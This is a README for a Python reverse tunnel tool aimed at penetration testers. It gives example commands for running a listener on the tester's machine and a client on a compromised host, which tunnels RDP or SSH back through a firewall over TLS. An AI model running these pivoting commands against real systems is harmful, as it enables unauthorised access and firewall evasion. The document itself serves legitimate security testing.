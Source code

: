 # pyrevtun

Description
===========
A pure Python reverse tunnel/reverse port forward utility (prototype) to forward TCP protocols over SSL/TLS.  This tool is designed for penetration testers and security enthusiasts.

Inspiration
===========
- Firecat: http://www.bishopfox.com/resources/tools/other-free-tools/firecat/
- Powercat: https://github.com/besimorhino/powercat/
- Socket "recvall" function: http://code.activestate.com/recipes/213239-recvall-corollary-to-socketsendall/

Requirements
============
- Python 2.7.x
- X509 PEM public/private key (unprotected)
- A password of your choice

Tool Usage
==========
1) On the penetration tester's local machine, setup pyrevtun in listener mode:

- python pyrevtun.py -m listener -l [IP:port] -t [local tunnel port] -s [certificate file] -k [private key file] -p [auth password]
- e.g. python pyrevtun.py -m listener -l 192.168.1.59:443 -t 33389 -s example_cert.pem -k example_key.pem -p pass

2) On compromised machine, setup pyrevtun in client mode:

- pyrevtun.py -m client -l [listener IP:port] -c [target IP:port] -p [auth password]
- e.g. python pyrevtun.py -m client -l 192.168.102.59:443 -c 10.5.5.5:3389 -p pass
- This connection will open up the chosen local port on the pen test machine.

3) Using TCP app (i.e. RDP, SSH client), connect to specified local port as [localhost:local tunnel port] 
- e.g. localhost:33389

*To prevent lockup, run in the background (&)

A practical Scenario
====================

1] [Pen Test Machine] <----rev conn---- [Firewall] <------- [Compromised Machine]         [Destination Machine]

- In this example, the penetration tester has compromised an internal network machine and has initiated a reverse connection (client mode) with pyrevtun back the the attack machine (listening mode).  The local port opens on the attack machine.

2) [Pen Test Machine] ----tunnel conn----> [Firewall] -------> [Compromised Machine] --------> [Destination Machine]

- The penetration tester connects to the the local port on the pen test machine (e.g. RDP).  RDP is forwarded over the reverse connection to the destination machine through the firewall and compromised machine.

Bugs/Issues
===========
- Socket shutdown/closure is not always graceful (may need to kill the process manually).
- Protocols like RDP (NLA auth) can be finicky.  If it doesn't work the first time, try it again.

Tool Usage & Ethics
===================
This tool was designed to help security professionals perform ethical and legal vulnerability assessments and penetration tests.  Do not use for nefarious purposes.

Also, I "program" for functionality, not necessarily final completion.  I am striving the for latter a little more each day...so if you find any major problems, let me know.

